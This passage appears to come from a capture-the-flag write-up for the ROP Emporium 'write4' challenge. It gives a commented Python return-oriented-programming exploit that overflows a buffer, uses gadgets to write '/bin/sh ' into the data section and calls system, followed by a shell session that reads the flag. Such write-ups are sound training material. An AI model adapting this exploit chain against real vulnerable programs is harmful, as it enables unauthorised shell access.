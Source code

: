 ```python
'''
When putting the string "/bin/sh " into the register, the trailing
space is important. Otherwise a NULL byte gets placed there instead,
which can cause the exploit to not work as intended
'''

payload = "A"*40 # Overflow the buffer (offset found using gdb gef, refer to previous challenges)
payload += pop_two_addr # jump to the 'pop r14; pop r15; ret;' gadget
payload += p64(data_addr) # pop the address of the data section into r14
payload += "/bin/sh " # pop the string "/bin/sh " into r15
payload += mov_addr # jump to the 'mov [r14], r15' gadget

'''
At this stage, the data section will contain the string "/bin/sh " since
the mov instruction above just moved the string from r15 into the memory
address stored inside r14
'''

payload += pop_rdi_addr # return to the 'pop rdi; ret;' gadget from the mov instruction
payload += p64(data_addr) # pop the address of the string "/bin/sh " into rdi
payload += system_addr # return from the gadget into system

# -- System's return address doesn't matter --

sh = elf.process()

sh.recvuntil("> ")
sh.sendline(payload)

sh.interactive()

```

Running the exploit.
```shell
~/Documents/ropemporium/write4/64write4# chmod +x exploit.py && ./exploit.py
$ ls
exploit.py  flag.txt  write4
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
$  
```